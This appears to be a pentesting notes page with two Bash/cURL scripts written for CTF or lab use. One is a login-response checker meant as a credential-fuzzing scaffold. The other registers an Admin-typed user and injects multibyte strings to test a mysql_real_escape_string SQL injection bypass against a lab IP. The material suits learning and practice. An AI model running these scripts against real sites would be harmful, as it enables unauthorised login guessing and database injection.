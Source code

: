 ### Check to see if a user login is correct in a Bash script

The following script can be used to verify that a username and login is correct. It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash. It will check the response length characters to see if it is a valid response. You will need to adjust the expected character count for your application.

```shell
#!/bin/bash
result=($(curl --data "email=$2&password=$3" "$1" 2>/dev/null | wc -c))
echo $result
if [ "$result" == '0' ]
then
        echo 'zero'
else
        echo 'NOT zero'
fi
```

Here is the script in action:

```shell
$ ./check_user.sh http://10.10.10.10/login.php test@test.com testpassword
0
NOT zero
```

### Automate user creation and test for mysql\_real\_escape\_string bypass

The following is a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash. Here is a bash script I created for a CTF to validate a theory I had about its use of the PHP mysql\_real\_escape\_string method:

```shell
#!/bin/bash
# Test for mysql_real_escape_string
email=test@test.com
password=1234567890123456789012345678901234567890123456789012345678901234567890123456789
fuzz="뽜’’AA"
name="‘¿’’AA"
ip="10.10.10.10"
echo "Creating User: ${email}"
curl -i -b 'cookies.txt' -c 'cookies.txt' -d "name=${name}&email=${email}&password=${password}&type=Admin" "http://${ip}/index.php" 2>/dev/null
echo " "
echo "============================================"
echo "Login as User"
echo "============================================"
curl -i -c 'cookies.txt' -d "email=${email}&password=${password}&type=Admin" "http://${ip}/index.php" 2>/dev/null  | grep 'location'
echo " "
echo "============================================"
echo "Check user profile with cookie"
echo "============================================"
curl -b 'cookies.txt' "http://${ip}/index.php" -v 2>/dev/null | grep 'td align="center"'
echo " " 
echo "============================================"
echo "Change Name"
echo "============================================"
curl -b 'cookies.txt' -d "name=${fuzz}&type=Admin" "http://${1}/index.php" 
echo " " 
curl -b 'cookies.txt' "http://${ip}/profile.php" 2>/dev/null | grep 'td align="center"'
echo " "
echo " DELETEING COOKIE "
```